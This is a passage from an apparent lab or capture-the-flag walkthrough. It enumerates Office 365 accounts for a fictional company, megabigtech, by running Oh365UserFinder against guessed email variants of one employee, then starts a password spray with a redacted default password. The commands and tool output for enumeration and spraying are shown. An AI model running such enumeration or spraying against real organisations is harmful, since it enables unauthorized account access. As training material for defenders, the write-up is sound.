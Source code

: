 ```
langelina@megabigtech.com
l.angelina@megabigtech.com
leea@megabigtech.com
lee@megabigtech.com
lee.a@megabigtech.com
lee.angelina@megabigtech.com
al@megabigtech.com

```

Now, we can use [Oh365UserFinder](https://github.com/dievus/Oh365UserFinder) to finf if user exists
```
└─$ python3 oh365userfinder.py -r emails.txt

   ____  __   _____ _____ ______   __  __                  _______           __          
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/ 
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /     
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/     

                                   Version 1.1.2                                         
                               A project by The Mayor                                    
                        Oh365UserFinder.py -h to get started                            

------------------------------------------------------------------------------------------

[info] Starting Oh365 User Finder at Mon Sep 15 21:34:33 2025

[!] angelina@megabigtech.com                             Result -  Desktop SSO Enabled [!] 
[!] angelinalee@megabigtech.com                          Result -  Desktop SSO Enabled [!] 
[!] angelina.lee@megabigtech.com                         Result -  Desktop SSO Enabled [!] 
[!] angelee@megabigtech.com                              Result -  Desktop SSO Enabled [!] 
[!] angelinal@megabigtech.com                            Result -  Desktop SSO Enabled [!] 
[!] a.lee@megabigtech.com                                Result -  Desktop SSO Enabled [!] 
[!] alee@megabigtech.com                                 Result -  Desktop SSO Enabled [!] 
[+] alee@megabigtech.com                                 Result -   Valid Email Found! [+]
[!] langelina@megabigtech.com                            Result -  Desktop SSO Enabled [!] 
[!] l.angelina@megabigtech.com                           Result -  Desktop SSO Enabled [!] 
[!] leea@megabigtech.com                                 Result -  Desktop SSO Enabled [!] 
[!] lee@megabigtech.com                                  Result -  Desktop SSO Enabled [!] 
[!] lee.a@megabigtech.com                                Result -  Desktop SSO Enabled [!] 
[!] lee.angelina@megabigtech.com                         Result -  Desktop SSO Enabled [!] 
[!] al@megabigtech.com                                   Result -  Desktop SSO Enabled [!] 

[info] Oh365 User Finder discovered one valid login account.                                                                                                                                                                                

[info] Scan completed at Mon Sep 15 21:34:49 2025 
```

We found a valid email. Now we can run the same tool using the parameter `--pwspray` to check if the default password is set. It seems that Angelina didn't change her password since being hired
```
└─$ python3 oh365userfinder.py --el emails.txt --password '<REDACTED>' --pwspray

   ____  __   _____ _____ ______   __  __                  _______           __
  / __ \/ /_ |__  // ___// ____/  / / / /_______  _____   / ____(_)___  ____/ /__  _____
 / / / / __ \ /_ </ __ \/___ \   / / / / ___/ _ \/ ___/  / /_  / / __ \/ __  / _ \/ ___/
/ /_/ / / / /__/ / /_/ /___/ /  / /_/ (__  )  __/ /     / __/ / / / / / /_/ /  __/ /
\____/_/ /_/____/\____/_____/   \____/____/\___/_/     /_/   /_/_/ /_/\__,_/\___/_/

                                   Version 1.1.2
                               A project by The Mayor
```